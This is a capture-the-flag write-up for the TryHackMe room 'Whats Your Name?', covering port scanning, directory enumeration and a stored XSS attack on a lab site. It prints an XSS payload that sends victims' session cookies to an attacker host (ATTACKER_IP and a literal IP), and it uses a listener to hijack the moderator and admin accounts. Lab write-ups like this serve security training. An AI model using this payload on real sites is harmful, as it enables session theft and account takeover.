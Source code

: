 ## THM CTF - Whats Your Name?

Flags:

> What is the flag value after accessing the moderator account?

> What is the flag value after accessing the admin panel?

---

We can start changing local DNS to easily handle all the process.
```
sudo nano /etc/hosts
```
Add the record:
```
xxx.xxx.xxx.xxx	   worldwap.thm
```
***It’s important to note that if we’re unable to navigate the site correctly, we can always use the IP address as a backup.*** 

Now we can proceed with an ```Nmap``` scan.
```
sudo nmap -sS -T4 worldwap.thm -p-
```
We discovered three open ports, and we can list the services they provide.
```
sudo nmap -sS -T4 worldwap.thm -p22,80,8081 -sV
```
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
8081/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nothing interesting for now.

We can visit both ```HTTP``` ports with ```Firefox```.

On ```port 80``` we can find a normal site ready to be enumerated, on ```port 8081``` the server respond with a blank page.

<details><summary><h4>Some not so useful site enumeration (click for more)<h4></summary>

We decided to start from ```port 80```.

We can register for the service using some fake data, but after completing the process and attempting to log in, the server responds with an error message.
```
User not verified
```
We attempted to add the following page to the hosts file:
```
login.worldwap.thm
```
However, this attempt was unsuccessful, as the page sent by the server was empty because it's redirecting to:
```
worldwap.thm:8081
```
We try to investigate the source of the message, finding a ```js``` file:
```
http://worldwap.thm/public/js/login.js
```
Analysing it, we discover an ```API```:
```
http://worldwap.thm/api/login.php
```
which respond to us with:
```
"Invalid Request Method"
```
We found another ```API``` analysing the registration process:
```
http://worldwap.thm/api/register.php
```
It responds:
```
"Registration disabled at the moment."
```

</details>

Just to be more precise, we proceed with a Gobuster directory analysis.

<details><summary><h4>Port 80 (click for more)</h4></summary>
  
```
gobuster dir -u http://worldwap.thm -w /usr/share/wordlists/dirb/common.txt -x html,js,txt,php,db,json,log
```

Findings:
```
/api                  (Status: 301) [Size: 310] [--> http://worldwap.thm/api/]
/index.php            (Status: 302) [Size: 0] [--> /public/html/]
/index.php            (Status: 302) [Size: 0] [--> /public/html/]
/javascript           (Status: 301) [Size: 317] [--> http://worldwap.thm/javascript/]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://worldwap.thm/phpmyadmin/]
/public               (Status: 301) [Size: 313] [--> http://worldwap.thm/public/]
```

* ```logs.txt``` is empty, but in the page code we can see something interesting that might be of use:
```
<link rel="stylesheet" href="resource://content-accessible/plaintext.css">
```
We can suppose that this site supports ```null Origin CORS``` configuration.

</details>

<details><summary><h4>Port 8081 (click for more)</h4></summary>
  
```
gobuster dir -u http://worldwap.thm:8081 -w /usr/share/wordlists/dirb/common.txt -x html,js,txt,php,db,json,log
```
Findings:
```
/assets               (Status: 301) [Size: 320] [--> http://worldwap.thm:8081/assets/]
/block.php            (Status: 200) [Size: 15]
/change_password.php  (Status: 302) [Size: 4] [--> login.php]
/chat.php             (Status: 302) [Size: 0] [--> login.php]
/clear.php            (Status: 200) [Size: 4]
/db.php               (Status: 200) [Size: 0]
/index.php            (Status: 200) [Size: 70]
/index.php            (Status: 200) [Size: 70]
/javascript           (Status: 301) [Size: 324] [--> http://worldwap.thm:8081/javascript/]
/login.php            (Status: 200) [Size: 3108]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 324] [--> http://worldwap.thm:8081/phpmyadmin/]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/setup.php            (Status: 200) [Size: 149]
```
```
* block.php - the message "Reset Completed" appears.
* login.php and change_password.php are interesting.
* logs.txt same as port 80
* setup.php seems to activate a DB creation/reset procedure.
```

</details>

---

Let's go back to ```Firefox``` trying to better understand how the registration works.

As usual we miss an important and obvious detail in the registration page.
```
You can now pre-register! Your details will be reviewed by the site moderator.
```
We could attempt a ```stored Cross-Site Scripting (XSS)``` attack to obtain moderator ```cookies```.

We can use a payload like this one.
```html
<img src=1 onerror="fetch('http://ATTACKER_IP:1234?s='+encodeURIComponent(document.cookie));">
```
and a listener on our machine.
```
python3 -m http.server 1234
```
However the payload is too long for the username, but not for email and name fields.

We can test it in the console receiving some feedback about the ```Cross-Origin Request``` control, maybe it's not working like this.
Anyhow we received our ```cookie``` on the attack machine listening... so it's a win.

After some browsing, our python server received a new ```cookie```... inputting it in the browser and navigating to:
```
worldwap.thm:8081/login.php
```
We're in! And the ```first flag``` is ours.

Now we need to access the ```admin panel```.

In the Moderator dashboard there is nothing to play with except for the ```Go To Chat``` button.
Navitating to the chat we discover that ```block.php``` and ```setup.php``` are used to restart and reset the chat with...
Admin!

Maybe we might be able to obtain session ```cookie``` from the admin too.
Let's try with the same script we used before.
```html
<img src=1 onerror="fetch('http://10.11.123.90:1234?s='+encodeURIComponent(document.cookie));">
```
And it works! We obtained the admin ```cookie``` and now we are able to enter as an admin into the dashboard retrieving the ```second flag```.


Lessons learned:
* Not only are the technical aspects important, but we also need to read the entire text to fully comprehend the fault logic behind the target machine’s security.
* Always check every script twice, especially when we are attempting a blind attack.
* Add to ```Gobuster``` search the ```Python``` extension.
